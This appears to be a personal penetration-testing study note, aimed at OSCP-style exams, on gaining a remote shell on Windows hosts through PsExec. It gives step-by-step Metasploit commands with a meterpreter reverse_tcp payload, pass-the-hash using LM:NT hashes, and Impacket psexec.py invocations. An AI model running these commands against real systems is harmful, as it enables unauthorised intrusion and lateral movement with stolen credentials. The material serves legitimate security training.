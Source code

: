 We can gain shell access through different ways.

1) Using metasploit:

```bash
msfconsole
```

```msfconsole
search psexec
```

search for exploit/windows/smb/psexec

```msfconsole
use <number_at_which_thing_at>
```

go to options and set payload to 

```msfconsole
set payload windows/x64/meterpreter/reverse_tcp
```

Then set your RHOSTS.

```msfconsole
set rhosts <ip_of_rhost>
```

```msfconsole
set smbdomain <name_of_domain>
```

```msfconsole
set smbuser <name_of_user>
```

```msfconsole
set smbpass <password>
```

Go to show targets and see which target you should exploit. It should work with automatic but if not, native upload and powershell might just work.

```msfconsole
run
```

Then you should get a shell

![[Pasted image 20240828111618.png]]

You can also run other things while this shell is running by using:

```msfconsole
background
```

And then you can get back to it by

```msfconsole
sessions 1
```

You can also use metaploit to do an NTLM attack here. Which is basically a hash attack.

So you first need to set smbuser

```msfconsole
set smbuser administrator
```

You dont need an smbdomain so you can unset that.

Then you need to copy the entire hash which is the LM and the NT part including the colon and run this

```msfconsole
set smbpass <paste>
```

Then run

```msfconsole
run
```

2) Manually without metasploit(for exams like OSCP)

Run the following command:

```bash
psexec.py <DC>/<name_of_user>:<password>@<ip_address>
```

And then you should get a shell

![[Pasted image 20240828112248.png]]

You can also login through a hash as well.

```bash
psexec.py administrator@<ip_address> -hashes <paste_the_hash>
```

![[Pasted image 20240828112427.png]]

